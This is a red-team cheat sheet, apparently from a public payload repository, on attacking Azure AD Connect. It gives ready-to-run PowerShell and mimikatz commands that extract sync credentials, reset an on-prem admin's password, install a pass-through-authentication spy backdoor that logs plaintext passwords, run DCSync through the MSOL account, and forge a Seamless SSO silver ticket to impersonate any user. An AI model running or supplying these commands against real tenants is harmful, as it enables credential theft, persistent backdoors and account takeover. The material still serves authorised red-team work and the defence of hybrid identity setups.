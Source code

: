 # Azure AD - AD Connect and Cloud Sync

| Active Directory                  | Azure AD          |
|-----------------------------------|-------------------|
| LDAP                              | REST API'S        |
| NTLM/Kerberos                     | OAuth/SAML/OpenID |
| Structured directory (OU tree)    | Flat structure    |
| GPO                               | No GPO's          |
| Super fine-tuned access controls  | Predefined roles  |
| Domain/forest                     | Tenant            |
| Trusts                            | Guests            |

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* For **PTA**, we can attack the agent
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* For **Federation**, connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password
    * extract the certificate from ADFS server using DA

## Password Hash Synchronization

Get token for `SYNC_*` account and reset on-prem admin password

```powershell
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```

## Pass-Through Authentication

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor

    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```

## Federation

* [Golden SAML](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adfs-federation-services/)

## AD Connect - Credentials

* [dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

| Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally |
| --- | --- | --- | --- | --- |
| ADSyncDecrypt | Yes | Yes | No | No |
| ADSyncGather | Yes | No | No | Yes |
| ADSyncQuery | No (network RPC calls only) | No | Yes | Yes |

* **ADSyncDecrypt**: Decrypts the credentials fully on the target host. Requires the AD Connect DLLs to be in the PATH. A similar version in PowerShell was released by Adam Chester on his blog.
* **ADSyncGather**: Queries the credentials and the encryption keys on the target host, decryption is done locally (python). No DLL dependencies.
* **ADSyncQuery**: Queries the credentials from the database that is saved locally. Requires MSSQL LocalDB to be installed. No DLL dependencies. Is called from adconnectdump.py, dumps data without executing anything on the Azure AD connect host.

Credentials in ADSync : `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`

## AD Connect - DCSync with MSOL Account

You can perform **DCSync** attack using the MSOL account.

Requirements:

* Compromise a server with Azure AD Connect service
* Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:

* [xpn/azuread_decrypt_msol.ps1](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545): AD Connect Sync Credential Extract POC
* [xpn/azuread_decrypt_msol_v2.ps1](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c): Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## AD Connect - Seamless Single Sign On Silver Ticket

Anyone who can edit properties of the `AZUREADSSOACCS$` account can impersonate any user in Azure AD using Kerberos (if no MFA)

Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`.

    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:

    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```

5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.

## References

* [Introduction to Microsoft Entra Connect V2 - Microsoft](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory - Dirk-jan Mollema - 1st apr. 2019](https://www.youtube.com/watch?v=JEIR5oGCwdg)
* [Impersonating Office 365 Users With Mimikatz - Michael Grafnetter - January 15, 2017](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [Azure AD Overview - John Savill's Technical Training - Oct 7, 2014](https://www.youtube.com/watch?v=l_pnNpdxj20)
* [Windows Azure Active Directory in plain English - Openness AtCEE - Jan 9, 2014](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Azure AD connect for RedTeam - Adam Chester @xpnsec -  2019-02-18](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure AD Kerberos Tickets: Pivoting to the Cloud - Edwin David - February 09, 2023](https://trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud)
* [DUMPING NTHASHES FROM MICROSOFT ENTRA ID - Secureworks](https://www.secureworks.com/research/dumping-nthashes-from-microsoft-entra-id)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
